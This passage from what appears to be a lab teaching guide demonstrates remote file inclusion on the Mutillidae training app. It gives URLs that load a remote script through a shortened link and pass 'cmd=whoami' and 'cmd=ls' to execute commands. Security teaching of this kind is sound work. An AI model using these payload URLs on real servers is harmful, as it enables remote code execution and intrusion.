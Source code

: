    - Press Enter and explain that, similar to the LFI demonstration, nothing happens, as expected. We need to add a parameter to the URL to run command-line scripts. This works a little differently than the LFI script.
  
   - To run a command-line script, we have to add a second parameter with an ampersand `&`.

     - For example, if we want to run the `whoami` command, we add the second parameter as follows: <http://192.168.13.27/index.php?page=https://tinyurl.com/y498epmz&cmd=whoami>.
  
        ![The new URL features the first and second parameters.](Images/RFI7.png)

   - Run the command. The webpage displays the results of the `whoami` command run against the web server: `www-data`.
  
      ![The Mutillidae webpage features text that says "www-data www-data".](Images/RFI8.png) 
 
   - Run `ls` to show that almost any command-line command can be run: <http://192.168.13.27/index.php?page=https://tinyurl.com/y498epmz&cmd=ls>.
 
#### Demonstration Summary 
 
Summarize that being able to successfully change the parameter of the URL to point to a remote script and then subsequently running this script indicates that this web application is vulnerable to **remote file inclusion**.

- Also note that the ability to arbitrarily execute command-line code with the remote script means this web application is also vulnerable to **remote code execution**.

#### Real-World Challenges

**Limitations of the RFI attack**: To conduct this attack successfully, the web server not only needs to run PHP but also needs to enable a configuration setting to allow external URLs. Many web servers that run PHP do not have this configuration enabled.

**Variety of attacks**: The demonstration illustrated using one type of malicious script and two command-line commands.
  